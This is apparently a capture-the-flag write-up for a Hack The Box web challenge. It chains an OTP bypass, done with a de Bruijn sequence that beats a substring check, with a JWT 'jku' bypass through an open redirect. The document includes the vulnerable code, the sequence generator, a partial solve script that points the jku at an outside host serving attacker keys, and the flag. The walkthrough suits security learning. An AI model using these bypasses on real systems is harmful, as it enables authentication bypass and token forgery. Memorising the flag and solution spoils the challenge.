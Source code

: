```yaml
---
created: 2024-12-13T15:53
updated: 2024-12-15T17:06
points: 900
---
```


Fun OTP bypass + JKU bypass. Signing JWTs with our own private keys.
## OTP Bypass

Nice hints from the author.

```js [challenge/server/middleware/otpMiddleware.js]
// TODO: Is this secure enough?
if (!otp.includes(validOtp)) {
    reply.status(401).send({ error: 'Invalid OTP.' });
    return;
}
```

Well, how are the OTPs generated?

```js
export const generateOtp = () => {
  return Math.floor(1000 + Math.random() * 9000).toString();
};
```

They seem to be just 4 digit numbers.

Now there are different ways to make a string contain all possible 4 digit numbers.

But I'll be using [de Bruijn sequence - Wikipedia](https://en.wikipedia.org/wiki/De_Bruijn_sequence) to generate a sequence that is not 36000 characters long, (even though it contains `0XXX` which isn't needed but whatever).

```python
def de_bruijn(k: Iterable[str] | int, n: int) -> str:
    alphabet = k
    k = len(k)
    a = [0] * k * n
    sequence = []

    def db(t, p):
        if t > n:
            if n % p == 0:
                sequence.extend(a[1: p + 1])
        else:
            a[t] = a[t - p]
            db(t + 1, p)
            for j in range(a[t - p] + 1, k):
                a[t] = j
                db(t + 1, t)
    db(1, 1)
    payload = "".join(alphabet[i] for i in sequence)
    return payload + payload[:n-1]
```

## JKU URL Bypass

Public keys are at `/.well-known/jwks.json`, and it is the `jku` field in the jwt header.

Changing it allows us to sign JWTs using our own private key, and the server will use our own public key to validate.

```js
// TODO: is this secure enough?
if (!jku.startsWith('http://127.0.0.1:1337/')) {
    throw new Error('Invalid token: jku claim does not start with http://127.0.0.1:1337/');
}
```

However the `jku` header is validated to must start with `http://127.0.0.1:1337/`.

How do we bypass this? Normal url injections like `@` would fail due to the presence of `/`.

Perhaps a redirect? Searching `redirect` gave me the answer, thank you author for all the hints.

This is the end point `http://127.0.0.1:1337/api/analytics/redirect?`

```js [challenge/server/routes/analytics.js]
fastify.get('/redirect', async (req, reply) => {
    const { url, ref } = req.query;

    if (!url || !ref) {
        return reply.status(400).send({ error: 'Missing URL or ref parameter' });
    }
    // TODO: Should we restrict the URLs we redirect users to?
    try {
        await trackClick(ref, decodeURIComponent(url));
        reply.header('Location', decodeURIComponent(url)).status(302).send();
    } catch (error) {
        console.error('[Analytics] Error during redirect:', error.message);
        reply.status(500).send({ error: 'Failed to track analytics data.' });
    }
});
```

## Solve

Combining them together we have the solve script!

Thank you author for making a solve script template!

```python [wrapper.py]
import requests
import datetime
import os
import jwt
from de_bruijn import de_bruijn

import json
from jwcrypto import jwk
from server import serve_file
from urllib.parse import urlencode

HOST = "http://94.237.48.253:46382"
FINANCIAL_EMAIL = 'financial-controller@frontier-board.htb'
COIN_SYMBOL = 'CLCR'
jku_url = f"http://127.0.0.1:1337/api/analytics/redirect?{urlencode({'ref': 'w', 'url': "https://1337.yun.ng/.well-known/jwks.json"})}"

kid = requests.get(f"{HOST}/.well-known/jwks.json").json()['keys'][0]['kid']
key = jwk.JWK.generate(kty='RSA', size=2048, alg='RS256', use='sig', kid=kid)
public_key = key.export_public()
stop = serve_file(json.dumps({'keys': [json.loads(public_key)]}).encode(), 1337, "application/json")
priv_key = key.export_to_pem(private_key=True, password=None)
otp = de_bruijn('0123456789', 4)

# ... THE ORIGINAL WRAPPER.PY...

stop()
```

```flag
HTB{rugg3d_pu11ed_c0nqu3r3d_d14m0nd_h4nd5_3dec65ba00edba8257236d8dffcf5c68}
```

Really loved the challenge!
